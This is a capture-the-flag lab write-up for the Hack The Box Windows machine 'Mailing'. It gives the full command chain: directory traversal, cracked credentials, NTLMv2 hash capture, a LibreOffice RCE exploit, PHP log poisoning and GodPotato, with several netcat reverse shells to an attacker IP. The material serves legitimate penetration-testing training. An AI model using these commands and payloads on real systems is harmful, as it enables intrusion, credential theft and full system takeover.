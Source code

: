 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
- **Exploits Used**:
    
    - File‑read/dir‑traversal via `download.php`
    - CVE‑2024‑21413 Outlook/Windows Mail NTLMv2 capture
    - WinRM & SMB auth bypass
    - CVE‑2023‑2255 LibreOffice document RCE
    - Log‑poisoning → webshell include → GodPotato
        

**Open Ports:**  
[SMTP](https://chatgpt.com/c/SMTP) 25/tcp  
[HTTP](https://chatgpt.com/c/HTTP) 80/tcp  
[POP3](https://chatgpt.com/c/POP3) 110/tcp  
[IMAP](https://chatgpt.com/c/IMAP) 143/tcp  [IMAPS](https://chatgpt.com/c/IMAPS) 993/tcp  
[SMTPS](https://chatgpt.com/c/SMTPS) 465/tcp  [Submission](https://chatgpt.com/c/Submission) 587/tcp  
[SMB](https://chatgpt.com/c/SMB) 445/tcp  
[WinRM](https://chatgpt.com/c/WinRM) 5985/tcp

**Tools:**  
nmap, ffuf, feroxbuster, curl, smbclient, netexec, Responder, crackstation, hashcat, swaks, smtplib, evil‑winrm, nc, PowerShell, LibreOffice

---

## Recon 🔍

```bash
nmap -p- --min-rate 10000 10.10.11.14
nmap -p 25,80,110,135,139,143,445,465,587,993,5040,5985 -sCV 10.10.11.14
ffuf -u http://10.10.11.14 -H "Host: FUZZ.mailing.htb" \
     -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
feroxbuster -u http://mailing.htb -x php,aspx
```

---

## Shell as maya 🐚

1. **Dir‑Traversal File Read**
    
    ```bash
    curl 'http://mailing.htb/download.php?file=../../windows/system32/drivers/etc/hosts'
    curl 'http://mailing.htb/download.php?file=../../Program+Files+(x86)/hMailServer/bin/hMailServer.ini'
    ```
    
2. **Crack hMailServer MD5** → `homenetworkingadministrator`
    
3. **SMTP Auth**
    
    ```bash
    swaks --auth-user 'administrator@mailing.htb' --auth LOGIN \
          --auth-password homenetworkingadministrator --quit-after AUTH --server mailing.htb
    ```
    
4. **CVE‑2024‑21413 NTLMv2 Capture**
    
    - Send malicious HTML email (Outlook/Windows Mail PoC)
        
    - Run Responder on tun0 → capture `maya` NTLMv2 hash
        
    - Crack with hashcat → `m4y4ngs4ri`
        
5. **SMB & WinRM Access**
    
    ```bash
    netexec smb mailing.htb -u maya -p m4y4ngs4ri  
    evil-winrm -i mailing.htb -u maya -p m4y4ngs4ri  
    ```
    

---

## Shell as localadmin 👤

1. **Enumerate SMB Shares** → `Important Documents` (read/write)
    
2. **CVE‑2023‑2255 LibreOffice RCE**
    
    ```bash
    python CVE-2023-2255.py \
      --cmd 'cmd.exe /c C:\ProgramData\nc64.exe -e cmd.exe 10.10.14.6 443' \
      --output exploit.odt
    smbclient '//mailing.htb/Important Documents' -U maya -P m4y4ngs4ri \
      -c 'put exploit.odt; put /opt/nc.exe/nc64.exe'
    ```
    
3. **Deliver & Execute**
    
    ```ps1
    copy "\\Important Documents\exploit.odt" C:\Users\maya\Desktop
    # Open in LibreOffice → reverse shell back to attacker
    ```
    

---

## Shell as defaultapppool 🌐

1. **Log‑Poisoning Webshell**
    
    ```bash
    telnet mailing.htb 25
    HELO <?php system($_REQUEST['cmd']); ?>
    ```
    
2. **Include via download.php**
    
    ```bash
    curl 'http://mailing.htb/download.php?file=../../progra~2/hmailserver/logs/hmailserver_2024-09-05.log&cmd=\programdata\nc64.exe+10.10.14.6+443+-e+cmd.exe'
    ```
    
3. **Reverse Shell** → `iis apppool\defaultapppool`
    

---

## Shell as SYSTEM 👑

1. **GodPotato on SeImpersonatePrivilege**
    
    ```bash
    gp.exe -cmd "\programdata\nc64.exe -e cmd.exe 10.10.14.6 443"
    ```
    
2. **SYSTEM** → read `root.txt`
    

---

## Actions Learned 🎓

- Directory‐traversal to leak configs & source
    
- MD5 hash cracking for admin creds
    
- NTLMv2 capture via CVE‑2024‑21413 & Responder
    
- SMB/WinRM pivot with cracked creds
    
- LibreOffice macro RCE (CVE‑2023‑2255) via SMB share
    
- Log‑poisoning to plant PHP shell in hMailServer logs
    
- GodPotato exploitation of SeImpersonatePrivilege
    

---

## References 🔗

- CVE-2024-21413 Outlook/Windows Mail RCE PoC
    
- CVE-2023-2255 LibreOffice “floating frames” RCE
    
- hMailServer .ini format & defaults
    
- HackTricks: 7‑Zip/PowerShell wildcards & symlinks
    
- Responder & hashcat NTLMv2 cracking techniques